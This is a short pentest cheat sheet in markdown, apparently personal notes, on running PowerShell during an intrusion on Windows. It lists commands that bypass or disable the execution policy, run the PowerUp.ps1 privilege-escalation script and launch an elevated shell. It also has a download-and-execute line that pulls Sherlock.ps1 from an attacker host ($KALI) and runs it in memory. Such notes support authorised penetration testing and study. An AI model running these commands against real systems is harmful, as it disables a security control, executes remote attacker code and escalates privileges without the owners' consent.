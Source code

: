 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

[[rlwrap]]

#### Execution bypass
```powershell - windows
powershell -ep bypass
```

If shell gets stuck here, you can still run PowerShell files like this:

```powershell - windows
powershell -ep bypass .\PowerUp.ps1
```

### SET EXECUTION ON

#### 1st method
```powershell - windows
powershell Get-ExecutionPolicy
```

```powershell - windows
powershell Set-ExecutionPolicy Unrestricted
```

```powershell - windows
powershell Get-ExecutionPolicy
```

#### 2nd method
```powershell - windows
powershell Get-ExecutionPolicy -Scope CurrentUser
```

```powershell - windows
powershell Set-ExecutionPolicy unrestricted -Scope CurrentUser
```

```powershell - windows
powershell Get-ExecutionPolicy -Scope CurrentUser
```

#### Download and execute form CMD
```command prompt - windows
echo IEX(New-Object Net.WebClient).DownloadString('http://$KALI:80/Sherlock.ps1') | powershell -noprofile -
```

RDP - Run PowerShell as Admin
```powershell - windows
start-process powershell -verb runas
```
